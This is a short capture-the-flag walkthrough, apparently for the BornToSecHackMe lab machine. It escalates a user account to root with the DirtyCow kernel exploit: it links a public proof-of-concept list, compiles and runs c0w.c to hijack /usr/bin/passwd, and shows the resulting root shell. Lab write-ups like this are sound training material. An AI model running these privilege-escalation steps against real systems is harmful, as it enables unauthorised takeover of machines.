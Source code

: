 [See detailed writeup here 1](../writeup1.md)

[See detailed writeup here 5](writeup5.md)

Log in as any user account.
```
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
```

Here you can see other different DirtyCow exploits that you can use.

Unlike the previous one, we will use c0w.c this time.


```
gcc -pthread c0w.c  -o c0w
```

Now we will run it...

```
zaz@BornToSecHackMe:~$ ./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap b7e04000

madvise 0

```

All we need to do is;

```
zaz@BornToSecHackMe:~$ /usr/bin/passwd

root@BornToSecHackMe:/home/zaz# whoami
root

root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=1005(zaz) groups=0(root),1005(zaz)
```

FINALLY WE ARE ROOT #7 ;D